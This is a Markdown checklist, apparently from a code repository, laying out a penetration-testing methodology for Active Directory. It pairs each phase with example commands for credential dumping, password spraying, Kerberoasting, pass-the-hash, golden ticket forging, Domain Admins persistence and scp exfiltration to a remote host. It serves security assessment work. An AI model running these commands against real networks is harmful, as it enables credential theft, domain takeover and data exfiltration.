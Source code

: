 ## Overview
This methodology outlines a structured approach to assessing the security of Active Directory environments. Each phase includes objectives, tasks, and example commands for a streamlined workflow.

---

## Methodology Checklist

### 1. Information Gathering

- [ ] **Objective**: Collect information about the target AD environment.
- [ ] **Network Discovery**:
  - [ ] Identify live hosts, domains, and IP ranges.
  - [ ] Tools: `nmap`, `Netdiscover`.
  - [ ] **Example Command**:
    - [ ] `nmap -sn <target_subnet>/24`
- [ ] **Domain Enumeration**:
  - [ ] Enumerate domain controllers, servers, and workstations.
  - [ ] Tools: `PowerView`, `BloodHound`, `ADRecon`.
  - [ ] **Example Command**:
    - [ ] `Get-NetDomainController -Domain <target_domain>`
  
### 2. **User Enumeration**
- [ ] **Objective**: Identify and enumerate domain users and groups.
- [ ] **Enumerate Users**:
  - [ ] Gather domain user details.
  - [ ] Tools: `rpcclient`, `CrackMapExec`, `BloodHound`.
  - [ ] **Example Command**:
    - [ ] `rpcclient -U "" <target_ip> -c "enumdomusers"`
- [ ] **Identify Privileged Groups**:
  - [ ] Enumerate members of domain admin groups.
  - [ ] Tools: `BloodHound`, `ldapsearch`.
  - [ ] **Example Command**:
    - [ ] `Get-NetGroupMember -GroupName "Domain Admins"`
  
### 3. **Credential Harvesting**
- [ ] **Objective**: Collect credentials from exposed sources.
- [ ] **SMB Shares Enumeration**:
  - [ ] Look for readable/writable shares containing sensitive data.
  - [ ] Tools: `smbclient`, `CrackMapExec`.
  - [ ] **Example Command**:
    - [ ] `smbclient -L //target_ip -U guest`
- [ ] **Password Dumping**:
  - [ ] Extract NTLM hashes from LSASS or registry.
  - [ ] Tools: `mimikatz`, `secretsdump.py`.
  - [ ] **Example Command**:
    - [ ] `secretsdump.py -just-dc-user <username> <target_domain>/<username>:<password>@<target_ip>`

### 4. **Password Attacks**
- [ ] **Objective**: Exploit weak passwords.
- [ ] **Password Spraying**:
  - [ ] Test commonly used passwords across many accounts.
  - [ ] Tools: `crackmapexec`, `Hydra`.
  - [ ] **Example Command**:
    - [ ] `crackmapexec smb <target_subnet> -u users.txt -p "Password123!"`
- [ ] **Kerberoasting**:
  - [ ] Request service tickets for SPN-enabled accounts.
  - [ ] Tools: `GetUserSPNs.py`, `Invoke-Kerberoast`.
  - [ ] **Example Command**:
    - [ ] `python3 GetUserSPNs.py <domain>/<username>:<password> -outputfile hashes.txt`
- [ ] **ASREPRoasting**:
  - [ ] Identify accounts without preauthentication.
  - [ ] Tools: `GetNPUsers.py`, `Impacket`.
  - [ ] **Example Command**:
    - [ ] `python3 GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat`

### 5. **Privilege Escalation**
- [ ] **Objective**: Escalate privileges within the domain.
- [ ] **Local Admin Check**:
  - [ ] Identify users with admin access on specific hosts.
  - [ ] Tools: `BloodHound`, `Invoke-ACLScanner`.
  - [ ] **Example Command**:
    - [ ] `BloodHound -CollectionMethod Group`
- [ ] **Exploiting Permissions**:
  - [ ] Abuse misconfigurations in permissions and privileges.
  - [ ] Tools: `PowerUp`, `BloodHound`.
  - [ ] **Example Command**:
    - [ ] `Invoke-ACLScanner -ResolveGUIDs`
  
### 6. **Lateral Movement**
- [ ] **Objective**: Move between hosts and escalate privileges.
- [ ] **Pass-the-Hash/Pass-the-Ticket**:
  - [ ] Use NTLM hashes or Kerberos tickets to access other hosts.
  - [ ] Tools: `mimikatz`, `pth-winexe`.
  - [ ] **Example Command**:
    - [ ] `mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:powershell.exe`
- [ ] **Remote Command Execution**:
  - [ ] Execute commands on remote hosts.
  - [ ] Tools: `Invoke-Command`, `wmiexec.py`.
  - [ ] **Example Command**:
    - [ ] `wmiexec.py <domain>/<username>:<password>@<target_ip> "ipconfig"`
  
### 7. **Persistence**
- [ ] **Objective**: Maintain access to the environment.
- [ ] **Add User to Domain Admins**:
  - [ ] Add a new user account to privileged groups.
  - [ ] Tools: `net group`, `Add-DomainGroupMember`.
  - [ ] **Example Command**:
    - [ ] `net group "Domain Admins" /add <username> /domain`
- [ ] **Golden Ticket Attack**:
  - [ ] Forge Kerberos TGT to impersonate a Domain Admin.
  - [ ] Tools: `mimikatz`.
  - [ ] **Example Command**:
    - [ ] `mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /ticket:ticket.kirbi`
  
### 8. **Post-Exploitation**
- [ ] **Objective**: Explore additional data and validate access.
- [ ] **Data Collection**:
  - [ ] Extract sensitive information from AD or network shares.
  - [ ] Tools: `dir`, `smbclient`, `PowerView`.
  - [ ] **Example Command**:
    - [ ] `smbclient //target_ip/share -U guest`
- [ ] **Exfiltration**:
  - [ ] Transfer data securely out of the network.
  - [ ] Tools: `scp`, `Invoke-WebRequest`.
  - [ ] **Example Command**:
    - [ ] `scp <file> user@<remote_ip>:/destination`
  
### 9. **Reporting**
- [ ] **Objective**: Document findings and remediation recommendations.
- [ ] **Summary of Findings**:
  - [ ] Provide high-level findings.
- [ ] **Detailed Findings**:
  - [ ] Include evidence, commands used, and screenshots.
- [ ] **Recommendations**:
  - [ ] Provide remediation steps and best practices for hardening.

---

### Appendix: Tools Summary

| Phase                | Tool              | Purpose                                     |
|----------------------|-------------------|---------------------------------------------|
| Information Gathering| `nmap`, `Netdiscover` | Discovering hosts and domain enumeration|
| User Enumeration     | `rpcclient`, `BloodHound` | Enumerating users and groups            |
| Credential Harvesting| `mimikatz`, `secretsdump.py` | Extracting credentials                  |
| Password Attacks     | `Hydra`, `crackmapexec` | Password spraying and brute-forcing     |
| Privilege Escalation | `BloodHound`, `PowerUp` | Identifying misconfigurations          |
| Lateral Movement     | `wmiexec.py`, `mimikatz` | Moving between hosts                    |
| Persistence          | `mimikatz`, `net group` | Setting up persistence                 |
| Post-Exploitation    | `PowerView`, `smbclient` | Extracting and exfiltrating data       |
